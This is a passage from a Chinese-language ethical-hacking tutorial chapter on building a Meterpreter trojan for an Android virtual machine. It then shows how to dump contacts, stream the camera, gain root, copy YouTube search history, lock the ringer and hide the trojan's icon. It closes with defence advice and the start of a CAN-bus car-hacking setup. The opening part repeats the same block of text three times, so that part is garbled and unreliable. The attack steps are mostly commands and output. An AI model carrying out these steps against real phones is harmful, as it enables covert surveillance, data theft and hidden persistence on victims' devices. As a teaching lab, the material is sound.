=============================== Command        Description -------        ----------- app_install    Request to install apk file app_list       List installed apps in the device app_run        Start Main Activity for package name app_uninstall  Request to uninstall application
```

我们首先要做的是防止 Android 设备进入睡眠。请在 `Meterpreter` 提示符下输入以下命令：

```
meterpreter > wakelock -w
```

`Meterpreter` 会回复 `Wakelock was acquired`，如果你的 Android 设备之前已进入睡眠或变为黑屏，屏幕将唤醒并且设备会保持唤醒状态，直到你释放 `wakelock`。

最容易运行 `Meterpreter` 命令并查看其效果的方法是同时在屏幕上显示 Android 和 Kali 虚拟机。（这种方法也有助于在攻击者入侵设备时看到用户所见的内容。）如果您有双显示器，请将 Kali 放在一个显示器上，Android 放在另一个显示器上。如果您只有一个屏幕，请尝试将 Kali 与 Android 并排放置，以便在操作时可以看到两者。

### 运行应用

一旦攻击者控制了移动设备，他们就可以远程启动任何想要的应用。为了了解其工作原理，让我们列出用户在其设备上安装的应用。在 `Meterpreter` 终端窗口中输入命令 `app_list`。Android 将列出智能手机上安装的每个应用，包括应用图标上显示的名称和该应用的包统一资源标识符（`URI`）字符串。*URI 字符串*是我们识别 Android 设备上各种资源的方式。例如，你可能会看到 YouTube 应用列出如下：

```
  YouTube  com.google.android.youtube  false  true
```

行末最后两个条目告诉你该应用是否正在运行以及它是否是操作系统安装的系统应用。这里，`false` 值告诉我们 YouTube 应用当前未运行，而 `true` 值表示它是作为 Android 操作系统的一部分安装的标准应用。

现在我们知道 YouTube 已安装在 Android 设备上，我们可以使用 `app_run` 命令和 YouTube 的包 `URI` 字符串从 `Meterpreter` 启动它。输入以下内容：

```
meterpreter > app_run com.google.android.youtube
```

你会在 Android 虚拟机中看到 YouTube 应用打开！切回你的 Android 虚拟机并搜索视频“Bryson Payne TED Talk”。Android 虚拟机上的 YouTube 应用将调出该视频（不过你可能无法通过虚拟机听到音频，因为 VirtualBox 的驱动程序并不总是适用于智能手机和平板电脑操作系统）。

你可以通过这种方式在被感染的智能手机或平板电脑上运行 *任何应用*，完全不需要用户的许可或交互。尝试运行更多应用，例如设置（`com.android.settings`）或电话应用（`com.android.dialer`）。

你也可以请求卸载应用的权限，但用户会收到提醒。尝试以下命令：

```
meterpreter > app_uninstall com.google.android.gm
```

你的 Android 虚拟机会显示一个弹出窗口询问是否要卸载 Gmail，如 图 9-6 所示。点击 **Cancel** 以保留设备上的 Gmail 应用。新款 Android 设备的[content]
6. 在 Android 屏幕底部黑色条带中点击返回按钮（左箭头），你会看到名为 `MainActivity` 的 `Meterpreter` 木马应用请求的权限列表：设置、图片、视频、联系人、GPS、麦克风、通话记录、短信、SD 卡访问……几乎是智能手机允许的每项权限！在权限窗口右下角点击 **Next**，然后点击 **Install**。如果收到 Google Play Protect 警告，点击 **Install Anyway**。
7. 在 Android 虚拟机屏幕底部点击主屏幕按钮（中间的圆圈）。然后点击并向上拖动屏幕以显示已安装的应用。点击 `MainActivity` 图标启动木马应用。
8. 切回你的 Kali 虚拟机，你会看到 `Meterpreter` 中已打开一个新的会话。

我们 Android 设备上的木马已向 Kali 汇报并等待命令。让我们看看接管控制后能做什么。

## 控制 Android 虚拟机

恶意移动应用带来的威胁与 PC 上的恶意软件威胁一样真实。如果你在智能手机上安装恶意软件，攻击者将能够访问 *大量* 敏感信息：你拍摄的每张图片和视频、所有联系人、你的通话和短信历史、你的 GPS 位置历史、你进行过的每一次网络搜索和观看的 YouTube 视频，以及攻击者可随时用来监视你的便携式摄像头和麦克风——这就是你随身携带的东西。

要准确了解恶意黑客使用像 `Meterpreter` 木马这样的应用能做什么，请在 `Meterpreter` 终端窗口中输入 `help`。你将看到所有可用的 `Meterpreter` 命令列表。除了我们在第 6 章入侵 Windows PC 时看到的那些命令外，还有两个专门针对 Android 设备的命令部分：

```
Android Commands
================ Command           Description -------           ----------- activity_start    Start an Android activity from a Uri string check_root        Check if device is rooted dump_calllog      Get call log dump_contacts     Get contacts list dump_sms          Get sms messages geolocate         Get current lat-long using geolocation hide_app_icon     Hide the app icon from the launcher interval_collect  Manage interval collection capabilities send_sms          Sends SMS from target session set_audio_mode    Set Ringer Mode sqlite_query      Query a SQLite database from storage wakelock          Enable/Disable Wakelock wlan_geolocate    Get current lat-long using WLAN information
Application Controller Commands
=============================== Command        Description -------        ----------- app_install    Request to install apk file app_list       List installed apps in the device app_run        Start Main Activity for package name app_uninstall  Request to uninstall application
```

我们首先要做的是防止 Android 设备进入睡眠。请在 `Meterpreter` 提示符下输入以下命令：

```
meterpreter > wakelock -w
```

`Meterpreter` 会回复 `Wakelock was acquired`，如果你的 Android 设备之前已进入睡眠或变为黑屏，屏幕将唤醒并且设备会保持唤醒状态，直到你释放 `wakelock`。

最容易运行 `Meterpreter` 命令并查看其效果的方法是同时在屏幕上显示 Android 和 Kali 虚拟机。（这种方法也有助于在攻击者入侵设备时看到用户所见的内容。）如果您有双显示器，请将 Kali 放在一个显示器上，Android 放在另一个显示器上。如果您只有一个屏幕，请尝试将 Kali 与 Android 并排放置，以便在操作时可以看到两者。

### 运行应用

一旦攻击者控制了移动设备，他们就可以远程启动任何想要的应用。为了了解其工作原理，让我们列出用户在其设备上安装的应用。在 `Meterpreter` 终端窗口中输入命令 `app_list`。Android 将列出智能手机上安装的每个应用，包括应用图标上显示的名称和该应用的包统一资源标识符（`URI`）字符串。*URI 字符串*是我们识别 Android 设备上各种资源的方式。例如，你可能会看到 YouTube 应用列出如下：

```
  YouTube  com.google.android.youtube  false  true
```

行末最后两个条目告诉你该应用是否正在运行以及它是否是操作系统安装的系统应用。这里，`false` 值告诉我们 YouTube 应用当前未运行，而 `true` 值表示它是作为 Android 操作系统的一部分安装的标准应用。

现在我们知道 YouTube 已安装在 Android 设备上，我们可以使用 `app_run` 命令和 YouTube 的包 `URI` 字符串从 `Meterpreter` 启动它。输入以下内容：

```
meterpreter > app_run com.google.android.youtube
```

你会在 Android 虚拟机中看到 YouTube 应用打开！切回你的 Android 虚拟机并搜索视频“Bryson Payne TED Talk”。Android 虚拟机上的 YouTube 应用将调出该视频（不过你可能无法通过虚拟机听到音频，因为 VirtualBox 的驱动程序并不总是适用于智能手机和平板电脑操作系统）。

你可以通过这种方式在被感染的智能手机或平板电脑上运行 *任何应用*，完全不需要用户的许可或交互。尝试运行更多应用，例如设置（`com.android.settings`）或电话应用（`com.android.dialer`）。

你也可以请求卸载应用的权限，但用户会收到提醒。尝试以下命令：

```
meterpreter > app_uninstall com.google.android.gm
```

你的 Android 虚拟机会显示一个弹出窗口询问是否要卸载 Gmail，如 图 9-6 所示。点击 **Cancel** 以保留设备上的 Gmail 应用。新款 Android 设备的[content]
6. 在 Android 屏幕底部黑色条带中点击返回按钮（左箭头），你会看到名为 `MainActivity` 的 `Meterpreter` 木马应用请求的权限列表：设置、图片、视频、联系人、GPS、麦克风、通话记录、短信、SD 卡访问……几乎是智能手机允许的每项权限！在权限窗口右下角点击 **Next**，然后点击 **Install**。如果收到 Google Play Protect 警告，点击 **Install Anyway**。
7. 在 Android 虚拟机屏幕底部点击主屏幕按钮（中间的圆圈）。然后点击并向上拖动屏幕以显示已安装的应用。点击 `MainActivity` 图标启动木马应用。
8. 切回你的 Kali 虚拟机，你会看到 `Meterpreter` 中已打开一个新的会话。

我们 Android 设备上的木马已向 Kali 汇报并等待命令。让我们看看接管控制后能做什么。

## 控制 Android 虚拟机

恶意移动应用带来的威胁与 PC 上的恶意软件威胁一样真实。如果你在智能手机上安装恶意软件，攻击者将能够访问 *大量* 敏感信息：你拍摄的每张图片和视频、所有联系人、你的通话和短信历史、你的 GPS 位置历史、你进行过的每一次网络搜索和观看的 YouTube 视频，以及攻击者可随时用来监视你的便携式摄像头和麦克风——这就是你随身携带的东西。

要准确了解恶意黑客使用像 `Meterpreter` 木马这样的应用能做什么，请在 `Meterpreter` 终端窗口中输入 `help`。你将看到所有可用的 `Meterpreter` 命令列表。除了我们在第 6 章入侵 Windows PC 时看到的那些命令外，还有两个专门针对 Android 设备的命令部分：

```
Android Commands
================ Command           Description -------           ----------- activity_start    Start an Android activity from a Uri string check_root        Check if device is rooted dump_calllog      Get call log dump_contacts     Get contacts list dump_sms          Get sms messages geolocate         Get current lat-long using geolocation hide_app_icon     Hide the app icon from the launcher interval_collect  Manage interval collection capabilities send_sms          Sends SMS from target session set_audio_mode    Set Ringer Mode sqlite_query      Query a SQLite database from storage wakelock          Enable/Disable Wakelock wlan_geolocate    Get current lat-long using WLAN information
Application Controller Commands
=============================== Command        Description -------        ----------- app_install    Request to install apk file app_list       List installed apps in the device app_run        Start Main Activity for package name app_uninstall  Request to uninstall application
```

我们首先要做的是防止 Android 设备进入睡眠。请在 `Meterpreter` 提示符下输入以下命令：

```
meterpreter > wakelock -w
```

`Meterpreter` 会回复 `Wakelock was acquired`，如果你的 Android 设备之前已进入睡眠或变为黑屏，屏幕将唤醒并且设备会保持唤醒状态，直到你释放 `wakelock`。

最容易运行 `Meterpreter` 命令并查看其效果的方法是同时在屏幕上显示 Android 和 Kali 虚拟机。（这种方法也有助于在攻击者入侵设备时看到用户所见的内容。）如果您有双显示器，请将 Kali 放在一个显示器上，Android 放在另一个显示器上。如果您只有一个屏幕，请尝试将 Kali 与 Android 并排放置，以便在操作时可以看到两者。

### 运行应用

一旦攻击者控制了移动设备，他们就可以远程启动任何想要的应用。为了了解其工作原理，让我们列出用户在其设备上安装的应用。在 `Meterpreter` 终端窗口中输入命令 `app_list`。Android 将列出智能手机上安装的每个应用，包括应用图标上显示的名称和该应用的包统一资源标识符（`URI`）字符串。*URI 字符串*是我们识别 Android 设备上各种资源的方式。例如，你可能会看到 YouTube 应用列出如下：

```
  YouTube  com.google.android.youtube  false  true
```

行末最后两个条目告诉你该应用是否正在运行以及它是否是操作系统安装的系统应用。这里，`false` 值告诉我们 YouTube 应用当前未运行，而 `true` 值表示它是作为 Android 操作系统的一部分安装的标准应用。

现在我们知道 YouTube 已安装在 Android 设备上，我们可以使用 `app_run` 命令和 YouTube 的包 `URI` 字符串从 `Meterpreter` 启动它。输入以下内容：

```
meterpreter > app_run com.google.android.youtube
```

你会在 Android 虚拟机中看到 YouTube 应用打开！切回你的 Android 虚拟机并搜索视频“Bryson Payne TED Talk”。Android 虚拟机上的 YouTube 应用将调出该视频（不过你可能无法通过虚拟机听到音频，因为 VirtualBox 的驱动程序并不总是适用于智能手机和平板电脑操作系统）。

你可以通过这种方式在被感染的智能手机或平板电脑上运行 *任何应用*，完全不需要用户的许可或交互。尝试运行更多应用，例如设置（`com.android.settings`）或电话应用（`com.android.dialer`）。

你也可以请求卸载应用的权限，但用户会收到提醒。尝试以下命令：

```
meterpreter > app_uninstall com.google.android.gm
```

你的 Android 虚拟机会显示一个弹出窗口询问是否要卸载 Gmail，如 图 9-6 所示。点击 **Cancel** 以保留设备上的 Gmail 应用。新款 Android 设备的[content]
6. 在 Android 屏幕底部黑色条带中点击返回按钮（左箭头），你会看到名为 `MainActivity` 的 `Meterpreter` 木马应用请求的权限列表：设置、图片、视频、联系人、GPS、麦克风、通话记录、短信、SD 卡访问……几乎是智能手机允许的每项权限！在权限窗口右下角点击 **Next**，然后点击 **Install**。如果收到 Google Play Protect 警告，点击 **Install Anyway**。
7. 在 Android 虚拟机屏幕底部点击主屏幕按钮（中间的圆圈）。然后点击并向上拖动屏幕以显示已安装的应用。点击 `MainActivity` 图标启动木马应用。
8. 切回你的 Kali 虚拟机，你会看到 `Meterpreter` 中已打开一个新的会话。

我们 Android 设备上的木马已向 Kali 汇报并等待命令。让我们看看接管控制后能做什么。

## 控制 Android 虚拟机

恶意移动应用带来的威胁与 PC 上的恶意软件威胁一样真实。如果你在智能手机上安装恶意软件，攻击者将能够访问 *大量* 敏感信息：你拍摄的每张图片和视频、所有联系人、你的通话和短信历史、你的 GPS 位置历史、你进行过的每一次网络搜索和观看的 YouTube 视频，以及攻击者可随时用来监视你的便携式摄像头和麦克风——这就是你随身携带的东西。

要准确了解恶意黑客使用像 `Meterpreter` 木马这样的应用能做什么，请在 `Meterpreter` 终端窗口中输入 `help`。你将看到所有可用的 `Meterpreter` 命令列表。除了我们在第 6 章入侵 Windows PC 时看到的那些命令外，还有两个专门针对 Android 设备的命令部分：

```
Android Commands
================ Command           Description -------           ----------- activity_start    Start an Android activity from a Uri string check_root        Check if device is rooted dump_calllog      Get call log dump_contacts     Get contacts list dump_sms          Get sms messages geolocate         Get current lat-long using geolocation hide_app_icon     Hide the app icon from the launcher interval_collect  Manage interval collection capabilities send_sms          Sends SMS from target session set_audio_mode    Set Ringer Mode sqlite_query      Query a SQLite database from storage wakelock          Enable/Disable Wakelock wlan_geolocate    Get current lat-long using WLAN information
Application Controller Commands
=============================== Command        Description -------        ----------- app_install    Request to install apk file app_list       List installed apps in the device app_run        Start Main Activity for package name app_uninstall  Request to uninstall application
```

我们首先要做的是防止 Android 设备进入睡眠。请在 `Meterpreter` 提示符下输入以下命令：

```
meterpreter > wakelock -w
```

`Meterpreter` 会回复 `Wakelock was acquired`，如果你的 Android 设备之前已进入睡眠或变为黑屏，屏幕将唤醒并且设备会保持唤醒状态，直到你释放 `wakelock`。

最容易运行 `Meterpreter` 命令并查看其效果的方法是同时在屏幕上显示 Android 和 Kali 虚拟机。（这种方法也有助于在攻击者入侵设备时看到用户所见的内容。）如果您有双显示器，请将 Kali 放在一个显示器上，Android 放在另一个显示器上。如果您只有一个屏幕，请尝试将 Kali 与 Android 并排放置，以便在操作时可以看到两者。

### 运行应用

一旦攻击者控制了移动设备，他们就可以远程启动任何想要的应用。为了了解其工作原理，让我们列出用户在其设备上安装的应用。在 `Meterpreter` 终端窗口中输入命令 `app_list`。Android 将列出智能手机上安装的每个应用，包括应用图标上显示的名称和该应用的包统一资源标识符（`URI`）字符串。*URI 字符串*是我们识别 Android 设备上各种资源的方式。例如，你可能会看到 YouTube 应用列出如下：

```
  YouTube  com.google.android.youtube  false  true
```

行末最后两个条目告诉你该应用是否正在运行以及它是否是操作系统安装的系统应用。这里，`false` 值告诉我们 YouTube 应用当前未运行，而 `true` 值表示它是作为 Android 操作系统的一部分安装的标准应用。

现在我们知道 YouTube 已安装在 Android 设备上，我们可以使用 `app_run` 命令和 YouTube 的包 `URI` 字符串从 `Meterpreter` 启动它。输入以下内容：

```
meterpreter > app_run com.google.android.youtube
```

你会在 Android 虚拟机中看到 YouTube 应用打开！切回你的 Android 虚拟机并搜索视频“Bryson Payne TED Talk”。Android 虚拟机上的 YouTube 应用将调出该视频（不过你可能无法通过虚拟机听到音频，因为 VirtualBox 的驱动程序并不总是适用于智能手机和平板电脑操作系统）。

你可以通过这种方式在被感染的智能手机或平板电脑上运行 *任何应用*，完全不需要用户的许可或交互。尝试运行更多应用，例如设置（`com.android.settings`）或电话应用（`com.android.dialer`）。

你也可以请求卸载应用的权限，但用户会收到提醒。尝试以下命令：

```
meterpreter > app_uninstall com.google.android.gm
```

你的 Android 虚拟机会显示一个弹出窗口询问是否要卸载 Gmail，如 图 9-6 所示。点击 **Cancel** 以保留设备上的 Gmail 应用。新款 Android 设备的安全设置会阻止 `Meterpreter` 木马卸载该应用。然而，有了超级用户权限（我们将在“窃取文件和在日志中窥探”第 117 页获得），我们可以在用户不知情的情况下删除该应用的数据甚至其主要程序文件。


图 9-6：Android 在卸载应用前会征求用户的许可。

在我们继续进行更阴险的黑客攻击之前，让我们再运行最后一个应用，通讯录：

```
meterpreter > app_run com.android.contacts
```

通讯录应用将在你的 Android 虚拟机中打开。在它打开时，我们将添加一个联系人，以便稍后在 `Meterpreter` 中窃取它。
1. 在 Android 的通讯录屏幕右下角点击添加联系人图标（带加号 + 的红色圆圈）。
2. Android 会要求你添加一个账户以访问你的 Google 联系人。点击 **Cancel**。（你不需要登录 Google 账户就可以向虚拟智能手机添加联系人。）
3. 将出现创建新联系人窗口。输入你的姓名、一个或两个假电话号码以及一个假电子邮件地址，如 图 9-7 所示。
4. 点击 **Save** 将新联系人保存在你的 Android 虚拟机上。如果想添加更多联系人，点击 Android 屏幕底部的返回箭头。


图 9-7：使用通讯录应用添加带有虚假信息的新联系人

### 访问联系人

`Meterpreter` 有多个用于访问我们存储在智能手机中的敏感数据的命令。在 Kali 中的 `Meterpreter` 控制台运行 `help` 并查找以 `dump` 开头的几个命令：

```
    dump_calllog      Get call log dump_contacts     Get contacts list dump_sms          Get sms messages
```

由于我们的 Android 虚拟机不是物理 Android 设备，我们无法拨打电话或接收短信，但我们在上一节中添加了一个联系人。现在让我们窃取它。
1. 在 `Meterpreter` 中运行 `dump_contacts` 命令：


```
meterpreter > dump_contacts [*] Fetching 1 contact into list
[*] Contacts list saved to: contacts_dump_20210927103858.txt
```

Meterpreter 会报告它找到的联系人数量，以及在你的 Kali 机器上保存这些联系人的文件名。

2. 在你的 Kali VM 中打开第二个终端窗口并输入 `cd` 进入主目录。然后输入命令 `ls con*` 列出 Meterpreter 在那里转储的任何联系人文件：

```
kali@kali:~# ls con*
contacts_dump_20210927103858.txt
```

你会看到一个名为 `contacts_dump_` 后跟时间戳（以数字格式表示的年、月、日和时间）的 `*.txt` 文件。

3. 输入 `cat con` 并按 `TAB` 自动补全联系人文件名，然后按 `ENTER` 显示文件内容：

```
kali@kali:~# cat contacts_dump_20210927103858.txt --snip--
#1
Name: Bryson Payne
Number: 404-555-1212
Email: brysonpayne@myuniversity.edu
```

攻击者可以看到你智能手机“联系人”应用中列出的每个人的完整联系信息，除此之外还能读取你的短信并查看你最近的每一次电话通话！

### 通过摄像头进行间谍活动

如果攻击者获得了对你智能手机的远程控制，他们可以劫持设备的摄像头和/或麦克风。正如我们将看到的，这种间谍行为令人不安地容易。

1. 如果你有网络摄像头，请通过 VM 菜单栏下的 `Devices`▶`Webcams` 将其连接到 Android VM 并选择其名称。

2. 连接网络摄像头后，重新启动你的 Android VM（选择 `Machine`▶`Reset` 并点击 `reset` 按钮）。然后通过点击 `MainActivity` 应用重新运行木马。

3. 在 Metasploit 中，在出现错误 `Meterpreter session closed` 后按 `ENTER`，然后输入命令 `exploit`。

4. 当新的 Meterpreter 会话开始时，输入命令 `webcam_list` 查看你的摄像头列表：

```
meterpreter > webcam_list
1: Back Camera
```

5. 使用命令 `webcam_stream` 查看摄像头的实时画面：

```
meterpreter > webcam_stream
```

网络摄像头将开始（缓慢地）通过 Firefox 浏览器向你的 Kali VM 流式传输视频，直到你关闭网页浏览器视频流并在 Meterpreter 终端中按 `CTRL-C`（Windows 上）或 `CONTROL-C`（macOS 上）停止流。

正如你所见，如果你的设备通过我们构建的类似漏洞被入侵，攻击者可以从你智能手机的网络摄像头流式传输视频，就像他们可以访问你的笔记本电脑或台式机网络摄像头一样。但与电脑网络摄像头不同，你可能随身携带智能手机 `everywhere`，你的朋友和家人也是如此。我们大多数人不想像对待笔记本电脑那样遮住智能手机的摄像头，因此更要小心安装在智能手机上的应用以及授予它们的权限。

### 窃取文件并在日志中窥探

就像我们在 Windows 10 入侵中所做的那样，我们可以使用上传和下载命令从 Android 设备的存储中上传和下载文件。甚至如果用户授予我们超级用户访问权限，我们还可以使用设备的 shell 终端访问受保护的敏感文件。

1. 在 Meterpreter 中输入 `shell` 进入 Android 终端 shell：

```
meterpreter > shell
Process 1 created.
Channel 1 created.
```

2. Android shell 不会在行首显示提示符，因此你的光标将位于空白行。输入命令 `cd /` 和 `ls` 将目录更改为根 `/*` 目录并列出设备上的所有文件夹：

```
cd /ls
acct
bugreports
cache
charger
config
d
data--snip--
```

`data` 文件夹包含大量用户数据，包括用户的 YouTube、浏览器和其他应用历史文件。还记得我们运行 YouTube 应用并搜索“Bryson Payne TED Talk”吗？如果某个应用存储了包含最近搜索结果的日志或历史文件，只要用户授予该应用管理员或超级用户权限，我们就可以访问这些文件。

3. 在 Meterpeter Android shell 中输入 `su` 请求超级用户访问权限。

```
su
```

4. 立即在 Android VM 中，你会看到权限窗口弹出，如 图 9-8 所示。点击 `Allow` 授予 Meterpreter 超级用户访问权限。


图 9-8：授予 Meterpreter 超级用户访问权限

5. 更改目录到 `/data/data/com.google.android.youtube` 并使用 `ls` 列出目录内容：

```
cd /data/data/com.google.android.youtubels
cache
code_cache
databases
files
no_backup
shared_prefs
```

6. `databases` 文件夹包含应用使用的各种文件，其中一个存储 YouTube 搜索历史。要找到该文件，输入命令 `cd databases` 和 `ls`。

```
cd databasels
```

7. 在出现的简短文件列表中，你会找到 `history.db` 文件。运行命令 `cat history.db` 查看设备的 YouTube 搜索历史。

```
cat history.db
����h�!##�mat 3@tablesuggestionssuggestionsCREATE TABLE suggestions (_id INTEGER PRIMARY KEY,display1 TEXT UNIQUE ON CONFLICT REPLACE,display2 TEXT,query TEXT,date LONG)5I#indexsqlite_autoindex_suggestions_1suggestionW--ctableandroid_metada��677bryson payne ted talkbryson payne ted talkl0�/cale TEXT)
��7	bryson payne ted talk
```

因为这是一个特殊的数据库格式文件，并非所有字符都可打印，但请查看最后几行——我们对“Bryson Payne TED Talk”的搜索以明文形式可见！如果你在 YouTube 上搜索其他视频然后重新运行最后一条命令（`cat history.db`），你会看到新结果被添加到文件中。

8. 现在我们将 YouTube 搜索历史文件下载到 Kali VM。首先，我们需要将其复制到 Metasploit 木马应用的 `files` 文件夹：

```
cp /data/data/com.google.android.youtube/databases/history.db /data/data/com.metasploit.stage/files
```

9. 接下来，我们需要授予复制文件的访问权限：

```
chmod 666 /data/data/com.metasploit.stage/files/history.db
```

10. 通过按 `CTRL-C`（Mac 上为 `CONTROL-C`）退出 Android shell。Meterpreter 将响应一个提示，询问你是否要终止 `channel` 或 shell 连接。输入 `y`。

```
^C
Terminate channel 1? [y/N] y
```

11. 现在你将回到常规的 Meterpreter 提示符，在那里你可以将 YouTube 历史文件下载到你的 Kali VM 主目录（`/home/kali/`）文件夹：

```
meterpreter > download history.db
```

12. 在另一个终端窗口中，输入 `ls` 确认 `history.db` 文件已成功下载。然后输入 `cat history.db`，你会看到与在 Android shell 中看到的相同文件内容，其中包含用户的 YouTube 搜索历史明文。

恶意黑客可以使用此技术保存你的 YouTube 搜索历史记录。然而，如果你是为 FBI 工作或在公司安全团队工作的法医数据分析师，你也可以使用相同技术来发现罪犯是否观看了 YouTube 视频以学习如何制造炸弹或犯下其他罪行。

### 关闭铃声及其他

你可以使用 Meterpreter 更改设置并阻止用户将其改回。例如，你可以通过在 Meterpreter 中输入以下命令关闭 Android VM 上的铃声：

```
meterpreter > set_audio_mode -m 0
[*] Ringer mode was changed to 0!
```

在你的 Android VM 中，从主屏幕向上滑动并选择 `Settings`。搜索“ring”并点击 `Ring volume` 打开声音设置。铃声音量已被关闭，如 图 9-9 所示。


图 9-9：在 Meterpreter 中关闭铃声音量后，用户无法从设置屏幕将其重新打开！

尝试将铃声音量滑块向右或向左滑动。你做不到！Meterpreter 已通过打开“请勿打扰”模式锁定了铃声音量（类似于在某些智能手机上滑动静音开关）。用户必须在设置下找到“请勿打扰”并将其关闭，才能重新控制智能手机的铃声音量。

还有一个用户无法覆盖的更改。我们可以做的。你可能已经想过，*如果我看到一个我不认识的应用，比如 `MainActivity`，我可能会删除它*。所以让我们隐藏 `MainActivity` 应用图标，使用户更难删除我们的特洛伊木马应用。

在 Meterpreter 中，输入以下命令以从用户的已安装应用列表中隐藏 `MainActivity` 特洛伊木马应用：

```
meterpreter > hide_app_icon
[*] Activity MainActivity was hidden
```

切换回你的 Android 虚拟机，点击主屏幕按钮，然后向上滑动以显示你的应用。`MainActivity` 应用将从列表中消失，如 图 9-10 所示。


图 9-10：从用户屏幕隐藏我们的 MainActivity 应用图标

通过隐藏应用图标，我们使用户难以卸载特洛伊木马应用。如果攻击者在最初就隐藏了应用图标，用户可能甚至不知道特洛伊木马应用已被安装！然而，即使看不到它，用户仍然可以卸载特洛伊木马应用。前往 **设置**▶**应用信息**，点击 `MainActivity`，然后点击 **卸载**。请注意，停止或卸载该应用会关闭 Kali VM 中的 Meterpreter 会话。要重新安装特洛伊木马应用，请前往 Android 中的 `Downloads` 文件夹并点击 `CoolGame.apk` 文件，就像我们之前做的那样。

## 防御恶意应用

为了保护自己免受恶意应用的侵害，请谨慎选择允许安装到智能手机上的应用。简而言之，安装前请三思！在你的 Android 设备上使用 Google Play Protect，并将每个安全弹出窗口视为重新考虑你正在做的事情的机会。更好的是，不要通过网络或 Google Play 商店、Apple 的 App Store（如果你使用的是 iPhone）或你智能手机制造商的商店以外的渠道下载应用。

然而，恶意应用也可能进入官方应用商店。这就是为什么在安装应用时阅读其请求的权限很重要。一个游戏或简单应用不应该需要访问你的联系人、通话记录或短信权限，除了像 *Pokémon Go* 这样的增强现实或基于位置的应用外，应用也不应要求你的位置。如果一个应用请求的权限比你认为它需要的更多，请删除它并找到一个用更少权限就能满足你需求的应用。同样，如果你已安装的应用 ever 请求额外权限——尤其是请求超级用户访问权限——你可以取消请求甚至删除该应用。你 *永远* 不必给予应用比你愿意提供的更多权限，而且大多数应用在没有获得广泛权限的情况下也能完美运行。

如果你发现智能手机上打开了你没有打开的应用（就像我们使用 Meterpreter 在 Android VM 上打开 YouTube 时那样），请完全关闭智能手机（不要只是关闭屏幕）。同时按住手机侧面或顶部的电源按钮和音量上按钮数秒，直到屏幕变黑（这适用于大多数 Android 设备），或使用另一台设备搜索如何重新启动或重置你的特定设备。如果你在智能手机或平板电脑上发现任何可疑活动，安装安全应用也是个好主意。大多数移动设备都有免费或低成本的防病毒应用，可以检测恶意进程或通信，如果你的智能手机通过应用被黑客入侵。

最后，就像在你的台式机或笔记本电脑上一样，不要点击电子邮件或短信中的可疑链接。你可以使用 VirusTotal 通过复制粘贴来检查大多数链接，就像在台式机上一样，但在智能手机上，你需要更加小心地点击恶意链接。请记住，如果攻击者能够骗你点击恶意链接或安装恶意应用，他们可以访问大量个人信息（甚至跟踪你的位置！）。因此，请告诉你的朋友、家人和其他你关心的人，对通过短信或电子邮件收到的任何链接保持怀疑，并在安装应用之前三思，尤其是来自未知来源的应用。

## 总结

在本章中，你创建了一个 Android 虚拟机，它看起来和运作方式都与真正的 Android 智能手机或平板电脑一样。你使用 Metasploit 为 Android 创建了一个 Meterpreter 远程访问特洛伊木马，几乎与你在第 6 章中为 Windows 10 所做的完全相同，并且你在 Android VM 上安装并启动了该特洛伊木马。一旦你控制了 Android 设备，你就看到了攻击者如何运行应用、窃取联系人、上传和下载文件、劫持你的摄像头，并在你的搜索历史中窥探。

你还了解到，防御移动设备免受恶意软件攻击的最佳方式是避免安装不受信任的应用。即使一个应用看起来合法，如果它请求的权限超过所需，请删除或卸载它。如果你的智能手机开始出现异常行为，请重新启动它，删除所有可疑应用，并在怀疑你意外安装了恶意软件时考虑安装像防病毒扫描器这样的安全应用。

在下一章中，你将尝试最后一次黑客活动。你会发现黑客技术不仅仅适用于计算机、智能手机和平板电脑。你还可以使用 Kali Linux VM 中的工具来攻击你周围其他联网设备，从智能电视到游戏机等等。为了证明这一点，我们将入侵一辆汽车！

# 10 汽车黑客技术与物联网


你每天都能接触到的一些最酷的计算机就在你周围，但你可能不会把它们当作计算机。许多家用电器——如恒温器、安全摄像头、冰箱以及 Alexa 或 Google Home 扬声器——内部都有计算机。如今，甚至汽车也拥有互联网连接和可被不道德黑客攻击的计算机系统。

嵌入日常物品中的联网计算设备被称为 *物联网 (IoT)*。物联网设备使我们的生活更轻松或更好，但也可能带来严重的安全风险。联网医疗设备可能有助于保持我们的健康并允许制造商远程监控和更新它们，但想象一下如果攻击者能够入侵某人的心脏起搏器或胰岛素泵来伤害用户。同样，你汽车中的卫星广播、GPS 导航和 4G/5G 无线娱乐系统使长途公路旅行更方便和有趣，但所有这些网络都带来了攻击者可能利用的额外漏洞。想象一下如果有人入侵你的汽车并使其在高速公路上突然刹车。

道德黑客入侵物联网设备是为了在攻击者利用它们造成真正损害之前发现问题。在本章中，你将看到其工作原理。你将入侵一个模拟的汽车网络，观察汽车发送的网络消息，并编写命令来控制汽车的仪表盘。

## 安装汽车黑客软件


## 安装 ICSim

对于本次黑客攻击，我们将安装一个名为 `Instrument Cluster Simulator (ICSim)` 的软件包，这是一个虚拟仪表板，让你可以看到并与速度表、转向信号和车门锁交互，就像在真正的车辆中一样。Craig Smith（又名 zombieCraig）和 OpenGarages 团队构建了 `ICSim`，以帮助黑客和研究人员安全、合乎道德地学习如何操作汽车网络，而不会损坏或摧毁真正的车辆或无辜的行人。

1. 打开一个终端窗口并更新 Kali 的软件包列表：
```
kali@kali:~$ sudo apt update
```
2. 现在通过输入以下命令安装 `ICSim` 的依赖项：
```
kali@kali:~$ sudo apt install libsdl2-dev libsdl2-image-dev can-utils
```
请注意，两个 `libsdl2` 包都是用小写字母 `L` 后跟数字 2 拼写的。
3. 按如下方式安装 `ICSim`：
```
kali@kali:~$ cd ~ 
kali@kali:~$ git clone https://github.com/zombieCraig/ICSim.git 
```
4. 在你的机器上设置 `can-utils`：
```
kali@kali:~$ cd ~
kali@kali:~$ git clone https://github.com/linux-can/can-utils
kali@kali:~$ cd can-utils
kali@kali:~/can-utils$ make
kali@kali:~/can-utils$ sudo make install
```
5. 使用以下命令设置 `ICSim` 仪表板模拟器软件：
```
kali@kali:~/can-utils$ cp lib.o ~/ICSim
kali@kali:~/can-utils$ cd ~/ICSim
kali@kali:~/ICSim$ make clean
kali@kali:~/ICSim$ make
```
现在运行我们的虚拟汽车仪表板并开始黑客攻击！

## 准备虚拟 CAN 总线网络

汽车的网络被称为 `CAN bus`，或简称为 `CAN`。`CAN bus` 自 1990 年代以来已在大多数汽车中使用，用于控制各种系统和传感器，如转向和制动、收音机、空调和娱乐中心。你刚刚安装的 `ICSim` 软件创建了一个 `virtual CAN (VCAN)` 总线网络，我们将学习如何攻击它。我们现在将创建该网络并完成你的汽车黑客环境的设置。

1. 要设置 `VCAN`，请在 `ICSim` 文件夹内的终端中输入此命令：
```
